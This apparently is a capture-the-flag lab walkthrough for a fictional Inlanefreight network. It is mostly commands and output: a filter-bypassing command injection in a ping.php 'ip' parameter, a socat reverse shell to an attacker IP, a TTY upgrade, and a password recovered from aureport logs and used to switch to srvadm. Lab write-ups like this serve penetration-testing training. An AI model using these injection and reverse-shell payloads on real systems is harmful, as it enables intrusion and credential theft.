1. Submit the contents of the flag.txt file in the `/home/srvadm` directory. `b447c***************************`


```bash
%0a'w'hich%09socat
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'w'hich%09socat"

[SNIP]

/usr/bin/socat
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 8443

listening on [any] 8443 ...

[CONTINUE]
```

```bash
%0a's'ocat%09TCP4:10.10.14.204:8443%09EXEC:bash
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a's'ocat%09TCP4:10.10.14.204:8443%09EXEC:bash"
```

```
[CONTINUE]

connect to [10.10.14.204] from (UNKNOWN) [10.129.70.53] 37694
```

```
┌──(nabla㉿kali)-[~]
└─$ socat file:`tty`,raw,echo=0 tcp-listen:4443

[CONTINUE]
```

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.204:4443
```

```
[CONTINUE]

webdev@dmz01:/var/www/html/monitoring$
```

```
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

[SNIP]

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
8. 06/01/22 07:13:36 365 1004 ? 4 sh "exit",<nl>

[SNIP]
```

```yaml
credentials:
    username: srvadm
    password: ILFreightnixadm!
    host: monitoring.inlanefreight.local
```

```
webdev@dmz01:/var/www/html/monitoring$ su srvadm  
Password: 
$
```

```
$ ls -l /home/srvadm

total 4
-rw-r--r-- 1 srvadm srvadm 33 May 30  2022 flag.txt

$ cat /home/srvadm/flag.txt

b447c*************************** 📌
```

---
---
